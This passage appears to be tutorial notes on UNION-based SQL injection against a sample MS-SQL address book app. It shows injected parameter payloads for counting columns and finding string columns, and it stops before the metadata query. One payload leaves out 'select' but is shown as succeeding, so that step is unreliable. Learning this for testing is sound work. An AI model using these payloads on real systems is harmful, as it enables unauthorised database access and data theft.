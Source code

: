 ## Extracting Data with UNION
Target Database: MS-SQL. 
Scenario: Address book application that allows users to maintain a list of contacts and query and update their details.

When a use searches her address book for a contact named Matthew, her browser posts the following parameter:

```
Name=Matthew
```

and the application returns the followgin result:

| NAME           | E-MAIL               |
| -------------- | -------------------- |
| Mattew Adamson | handytrick@gmail.com |

First, we need to determine the required number of columns. Testing for a single collumn results in an error message:

```
Name=Mattew'%20union%20select%20null--

All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.
```


We add a second `NULL`, and the same error occurs. So we continue adding `NULLS` until our query is executed, generating an additonal item in the resutls table:

```
Name=Matthew'%20union%20select%20null,null,null,null,null--
```

| NAME            | E-MAIL               |
| --------------- | -------------------- |
| Matthew Adamson | handytrick@gmail.com |
| \[empty\]       | \[empty\]            |

We now verify that the first column in the query contains string data:

```
Name=Matthew'%20union%20'a',null,null,null,null--
```


| NAME            | E-MAIL               |
| --------------- | -------------------- |
| Matthew Adamson | handytrick@gmail.com |
| a               |                      |

The next step is to find out the names of the database tables and columns that may contain interesting information. We can do this by querying the metadata table `information_schema.columns`, which contains details of all tables and column names within the database. These can be retrieved with this query:
